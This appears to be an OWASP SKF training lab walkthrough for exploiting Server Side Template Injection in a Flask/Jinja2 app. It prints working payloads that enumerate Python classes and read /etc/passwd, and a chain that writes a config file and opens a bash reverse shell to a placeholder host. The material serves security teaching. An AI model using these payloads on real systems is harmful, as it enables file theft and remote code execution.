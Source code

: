 # Server Side Template Injection - SSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```
$ sudo docker run -ti -p 127.0.19.1:9000:9000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SSTI/1.png)

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SSTI/2.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

{% ... %} for Statements {{ ... }} for Expressions to print to the template output {# ... #} for Comments not included in the template output # ... ## for Line Statements \`\`\`

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SSTI/3.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:\
[\
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment

Now, lets find some usefull injections for Jinja2.\
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SSTI/4.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SSTI/5.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
